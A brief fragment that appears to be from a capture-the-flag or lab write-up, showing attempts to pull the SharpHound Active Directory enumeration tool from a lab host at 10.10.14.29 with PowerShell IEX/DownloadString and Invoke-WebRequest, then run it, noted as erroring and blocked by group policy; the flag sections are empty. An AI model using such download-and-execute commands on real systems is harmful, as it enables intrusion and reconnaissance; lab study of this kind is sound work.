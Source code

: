```markdown
>IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.29:8000/SharpHound.exe', 'SharpHound.exe')
#error
>IWR -Uri http://10.10.14.29:8000/SharpHound.exe -Outfile SharpHound.exe
>SharpHound.exe
#BLocked by group policy

```

### User flag

### Root flag